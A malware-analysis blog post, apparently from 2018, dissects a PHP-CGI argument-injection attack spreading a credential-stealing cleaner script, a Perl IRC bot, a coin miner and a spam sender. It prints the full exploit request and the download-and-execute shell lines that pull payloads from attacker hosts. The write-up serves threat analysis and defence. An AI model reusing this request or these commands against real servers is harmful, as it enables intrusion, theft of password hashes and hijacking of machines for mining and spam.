 ```yaml
---
title: "CGI-BIN PHP Cleaner, Ostensibly"
#author: "Author Name"
description: "Another actor using the same Netgear bug again, resurrecting it.  This time not for cryptomining, but for a botnet."
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-07-20T00:00:00-00:00
draft: false
---
```


Here's another version of the Netgear DGN bug being used recently - an attack against web servers that have PHP executable under cgi-bin.  The POST request URL looks like:

```
//cgi-bin/php?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%64+%64%69%73%61%62%6C%65%5F%66%75%6E%63%74%69%6F%6E%73%3D%22%22+%2D%64+%6F%70%65%6E%5F%62%61%73%65%64%69%72%3D%6E%6F%6E%65+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%64+%63%67%69%2E%66%6F%72%63%65%5F%72%65%64%69%72%65%63%74%3D%30+%2D%64+%63%67%69%2E%72%65%64%69%72%65%63%74%5F%73%74%61%74%75%73%5F%65%6E%76%3D%30+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%6E
```

Which translates to:

```
//cgi-bin/php?-d+allow_url_include=on+-d+safe_mode=off+-d+suhosin.simulation=on+-d+disable_functions=""+-d+open_basedir=none+-d+auto_prepend_file=php://input+-d+cgi.force_redirect=0+-d+cgi.redirect_status_env=0+-d+auto_prepend_file=php://input+-n
```

The body of the request is then:

```
<? system("cd /tmp ; wget hxxp://61.180.181.98/clean ; curl -O hxxp://61.180.181.98/clean ; fetch hxxp://61.180.181.98/clean ; chmod +x clean ; ./clean ; rm -rf clean* ; history -c "); ?>
```

That "clean" script actually begins by cleaning up things some other recent versions of the exploit have left behind...  It kills xmrig, minerd, and several other things that look like part of earlier attacks.  Then it grabs some information about your system, and the shadow file, and mails it all to `marcimarcel221@gmail.com`.

The next step is to download a Perl IRC bot - `hxxp://61.180.181.98/plaintext.txt`.  Virus Total hadn't seen this particular hash yet, but this is a pretty common one.  The specific "configuration" is by "Lucifer@2018", with BTC address "16p68FyW8Pe2mNutg5Qu8afJt18dqX8W5z", at "user@lucifer.services".

This IRC bot actually does a little more...

```
if ($funcarg =~ /^mineBTC (.*)/) {
        my $stringfolder;
    for (0..7) { $stringfolder .= chr( int(rand(25) + 65) ); }
    my $minerUrl = "hxxp://xdss.altervista.org/wp-content/minerBTC/mineryess.tgz";
    system("killall -9 minerd ; cd /tmp ; rm -rf .doc-* ; mkdir .doc-$stringfolder ; cd .doc-$stringfolder ; wget $minerUrl ; curl -O $minerUrl ; fetch $minerUrl ; tar -zxvf mineryess.tgz ; rm -rf  mineryess.tgz* ; mv miner .xdxdx ; cd .xdxdx ; chmod +x * ; nohup ./minerd -o stratum+tcp://yescrypt.mine.zpool.ca:6233 -u 1Ay4VXFPL93yu1UMpYwBC6P3QqzaQXeHTm -p d=0.5,x11=0.5,qubit=0.5,bitcore=0.5,tribus=0.5,hsr=0,5,phi=0,5,equihash=0.5,hmq1725=0.5,equihash=0.5 >/dev/null &");
        $pid_minerd = `pgrep minerd`;
    sendraw($IRC_cur_socket, "PRIVMSG $printl :^B^C4,1 [BTC MINING]^B ^C9,1STARTED ! PID : $pid_minerd");
        }
```

Download a coin miner from xdss.altervista.org.  Pool specified in there too...

And because one cleaning script isn't enough...

```
if ($funcarg =~ /^cleanbots (.*)/) {
        my $stringfolder;
    sendraw($IRC_cur_socket, "PRIVMSG $printl :^B^C4,1 [CLEAN BOTS]^B ^C9,1STARTED !");
    for (0..7) { $stringfolder .= chr( int(rand(25) + 65) ); }
    my $scripturl = "hxxp://xdss.altervista.org/wp-content/scripts/clean";
    system("cd /tmp ; rm -rf .cl-* ; mkdir .cl-$stringfolder ; cd .cl-$stringfolder ; wget $scripturl ; curl -O $scripturl ; fetch $scripturl ; chmod +x * ; nohup ./clean >/dev/null &");
        system("cd /tmp ; rm -rf .cl-$stringfolder ; history -c");
        }
```

The resulting cleaning script is the same as the earlier one, including the gmail dump address and "plaintext.txt" specification.

All kinds of little tools to download from different places...

```
if ($funcarg =~ /^startsend (.*)/) {
  my $target1 = "$1";
  my $target2 = "$2";
  my $stringfolder;
    for (0..7) { $stringfolder .= chr( int(rand(25) + 65) ); }
    my $senderUrl = "hxxp://xhost.altervista.org/wp-content/ten/2018/send/send.tgz";
    system("cd /tmp ; rm -rf .snd-* ; mkdir .snd-$stringfolder ; cd .snd-$stringfolder ; echo $meunick > `pwd`/botnick ; wget $senderUrl ; curl -O $senderUrl ; fetch $senderUrl ; tar -zxvf send.tgz ; rm -rf  send.tgz* ; chmod +x * ; nohup php send.php $target1 $target2 ; cd /tmp ; rm -rf .snd-$stringfolder >/dev/null &");
    sendraw($IRC_cur_socket, "PRIVMSG $printl :^B^C4,1 [E-mail sending]^B ^C9,1STARTED ! File : $target1 $target2");
  }
```

"send.tgz" includes a php script which will require some deobfuscation, it uses a ton of "\x" encoding, then further uses a bunch of indirection through PHP global variables...  After some analysis, it looks like a script that uses a variety of indirection means to be commanded to send email.  There seems to be support for reading a file mapping IRC bot nicknames to email addresses.  This would be handy when trying to use a botnet to send email to a bunch of destinations.  The content seems to come from a set URL, then the IRC controller can command bots to read the list of emails from a URL specified in the command.

"miner.tgz" contains a copy of [cpuminer-yescrypt](https://github.com/GlobalBoost/cpuminer-yescrypt).  It even includes the source...  It even includes the .git directory, actually, which reveals that its origin was actually [noncepool's version](https://github.com/noncepool/cpuminer-yescrypt.git).  The config log reveals that configuration was run on "vmd3959.contabo.net", "3.2.0-4-amd64", "Debian 3.2.51-1", but "gcc version 4.7.2 (Debian 4.7.2-5)".

This specific compile of minerd (SHA256 925e4a411a254cb3364b8dd5c3c184ba92bd1100a4ae06902f3905ceeb38c4a0) was first uploaded to VirusTotal on 19 Oct, 2017, and the compile times (preserved because it's from a tar file) were from 10 Jun, 2017, so generally in-line.
